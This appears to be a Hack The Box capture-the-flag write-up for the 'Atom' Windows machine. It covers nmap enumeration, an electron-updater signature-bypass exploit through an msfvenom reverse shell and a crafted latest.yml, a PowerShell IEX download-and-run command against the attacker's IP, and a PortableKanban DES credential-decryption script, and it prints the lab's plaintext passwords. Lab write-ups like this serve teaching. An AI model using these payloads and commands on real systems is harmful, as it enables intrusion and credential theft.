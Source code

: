 ![](atom_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.237 atom.htb

**nmap scan:**
```bash
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
135/tcp  open  msrpc        Microsoft Windows RPC
443/tcp  open  ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6379/tcp open  redis        Redis key-value store
Service Info: Host: ATOM; OS: Windows; CPE: cpe:/o:microsoft:windows
```

* Windows version: `OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)`
* Nothing in ssl certificate.
* Radis require authAuthentication, [hacktricks](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)

      ❯ redis-cli -h 10.10.10.237
      10.10.10.237:6379> info
      NOAUTH Authentication required.

* SMB allowed access without password

  ![](screenshots/smb-share.png)

  Found a pdf file and some empty directories.
* There a file available for download on http server `/releases/heed_setup_v1.0.0.zip`

  ![](screenshots/web-page.png)

* zip archive contains a windows executable.

      ❯ file heedv1-Setup-1.0.0.exe
      heedv1-Setup-1.0.0.exe: PE32 executable (GUI) Intel 80386, for MS Windows, Nullsoft Installer self-extracting archive

* pdf file contains some information about this exe file.

  ![](screenshots/heed-pdf-doc.png)

pdf also talking about update.

![](screenshots/pdf-update-note.png)

And if we reverse the executable with `7z` in linux and find the `resources` folder under `$PLUGINSDIR`, which contains the  electron app source codes in `app.asar` file. We can decompress `app.asar` file with [`asar`](https://github.com/electron/asar) tool to get the application source javascript files.
```bash
❯ npx asar extract app.asar dest-dir
```

![](screenshots/app-packages.png)

This application using vulnerable version of `electron-updater` package.

* Vulnerability found from [snyk VulnerabilityDB](https://snyk.io/vuln/SNYK-JS-ELECTRONUPDATER-561421)
* **electron-builder's Electron-Updater PoC blog from [blog.doyensec.com](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)**

# Foothold

## Electron Updater RCE

**Exploit surface:** The signature verification check performed by electron-builder is simply based on a string **comparison between the installed binary’s publisherName and the certificate’s Common Name attribute of the update binary**. During a software update, the application will request a file named **`latest.yml`** from the **update server**, which contains the definition of the new release - including the binary filename and hashes.

* our application is using smb share's client folder for new `latest.yml` and we have access to these "client" folders.

**Other part:** an attacker could **bypass the entire signature verification** by triggering a parse error in the script. This can be easily achieved by **using a filename containing a single quote (`'`) and then by recalculating the file hash to match the attacker-provided binary** (using `shasum -a 512 maliciousupdate.exe | cut -d " " -f1 | xxd -r -p | base64`).

* Found update process form  [electron docs](https://www.electron.build/auto-update#staged-rollouts)

**Exploit**

**Generate reverse shell with msfvenom**
```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.71 LPORT=4141 -f exe -o "rev'Shell.exe"
```

**generate sha512 bash encoded hash**
```bash
❯ sha512sum rev\'Shell.exe | cut -d " " -f1 | xxd -r -p | base64 -w 0
77b46759lH58s81l3tMaetP541XEe+XJ2V+IEPOC5dF27MjxROsm/JJMVR7tt2CN/hmVikE5d8Wa9VuxMAnFNw==
```

**configure latest.yml**
```yml
version: 1.0.1
path: http://10.10.15.71/rev'Shell.exe
sha512: 77b46759lH58s81l3tMaetP541XEe+XJ2V+IEPOC5dF27MjxROsm/JJMVR7tt2CN/hmVikE5d8Wa9VuxMAnFNw==
```

**upload `latest.yml` in the smb share's "client" folder.**

![](screenshots/rev-shell.png)


<details>
<summary><strong>msf shell</strong></summary>

Generate Reverse shell with msfvenom
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.71 LPORT=4141 -f psh -o msf_shell.ps1
```

Execute with powershell IEX
```bash
IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.71/msf_shell.ps1')
```

</details>
</br>

# Privesc

## Kanban credentials encryption flaw

* Only one user on the box "jason"

There is radis server running, get in the nmap scan, so finding radis server creds: `C:\Program Files\Redis\redis.windows-service.conf`

![](screenshots/radis-pass.png)
<!--kidvscat_yes_kidvscat-->

Found "Administrator" Encrypted Password from redis database, But don't find the encryption type.

![](screenshots/redis-dump.png)
<!--Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi-->

Running winpeas found user "jason" password but it is not working.

![](screenshots/winpeas-win-creds.png)

Enumerating user "jason" home folder find [PortableKanban](https://www.atlassian.com/agile/kanban) in `C:\Users\jason\Downloads\PortableKanban`.

from kanban config file found that radis is using by kanban.

![](screenshots/kanban-config.png)

that looking that encrypted password from config, they both looks same.

PortableKanBan stores credentials in an encrypted format and also found a script for decrypt this from [ExploitDB](https://www.exploit-db.com/exploits/49409).

```py
import base64
from des import * #python3 -m pip install des

def decode(hash):
	hash = base64.b64decode(hash.encode('utf-8'))
	key = DesKey(b"7ly6UznJ")
	return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')

print(decode("Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi"))
```

Run the script give decrypted password
<!--
jason:kidvscat_electron_@123
administrator:kidvscat_admin_@123
-->

Checking if that password is working
```bash
$username = "domain\Administrator"
$password = "kidvscat_admin_@123" | ConvertTo-SecureString -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential -ArgumentList $username,$password
$s = New-PSSession -Credential $Cred
Invoke-Command -Session $s -Scriptblock {whoami}
```

![](screenshots/admin-pass-check.png)

We can get the Administrator shell with `evil-winrm`

```bash
❯ evil-winrm -i 10.10.10.237 -u administrator -p 'kidvscat_admin_@123'
```

![](screenshots/atom-rooted.png)

